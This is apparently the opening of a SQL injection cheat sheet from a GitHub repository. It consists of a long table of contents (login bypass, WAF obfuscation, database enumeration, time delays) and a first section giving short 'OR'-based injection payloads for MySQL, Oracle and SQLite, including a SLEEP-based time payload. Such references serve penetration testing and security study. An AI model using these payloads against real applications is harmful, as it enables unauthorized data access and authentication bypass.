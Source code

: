 # SQLi Cheatsheet
- [SQLi Cheatsheet](#sqli-cheatsheet)
  - [Safe `OR` Based Payloads](#safe-or-based-payloads)
  - [Comments](#comments)
    - [Line Comments](#line-comments)
    - [Inline Comments (For Obfuscation)](#inline-comments-for-obfuscation)
      - [Example](#example)
  - [Batch Execution (Query Stacking)](#batch-execution-query-stacking)
    - [Example](#example-1)
  - [Conditional Boolean Errors](#conditional-boolean-errors)
    - [MySQL](#mysql)
    - [SQL Server](#sql-server)
    - [ORACLE](#oracle)
    - [PostgreSQL](#postgresql)
    - [SQLite](#sqlite)
  - [String Utility](#string-utility)
    - [Concatenation](#concatenation)
      - [Through Operators](#through-operators)
        - [Example (Concatenating Multiple Columns)](#example-concatenating-multiple-columns)
        - [Example (Obfuscating URL Parameter)](#example-obfuscating-url-parameter)
      - [Through Functions](#through-functions)
        - [Example (Concatenating Multiple Columns)](#example-concatenating-multiple-columns-1)
    - [Conversion Functions](#conversion-functions)
      - [Example (as Obfuscation, bypassing WAF \& Filter Sequences)](#example-as-obfuscation-bypassing-waf--filter-sequences)
    - [SUBSTRING Creation](#substring-creation)
    - [String Length Calculation](#string-length-calculation)
    - [Group Concatenation From Multiple Columns](#group-concatenation-from-multiple-columns)
  - [Limit Query Results](#limit-query-results)
  - [DataBase Version Information](#database-version-information)
  - [Current DataBase In Use](#current-database-in-use)
  - [List All The DataBases In The Server](#list-all-the-databases-in-the-server)
  - [List All The Tables In A DataBase](#list-all-the-tables-in-a-database)
  - [List All The Columns In A Table](#list-all-the-columns-in-a-table)
  - [Login Bypass](#login-bypass)
  - [Enumerate Column's Data Type](#enumerate-columns-data-type)
  - [Trigger Time Delays](#trigger-time-delays)
    - [Example](#example-2)
- [References](#references)

## Safe `OR` Based Payloads
**Note: Use `'OR 1=1--` Responsibly**
| Applicability | Payload |
| - | - |
| MySQL | `' OR IF((NOW()=SYSDATE()),SLEEP(5),1)='0` |
| Oracle | `' OR ROWNUM = '1` |
| SQLite | `' OR ROWID = '1` |
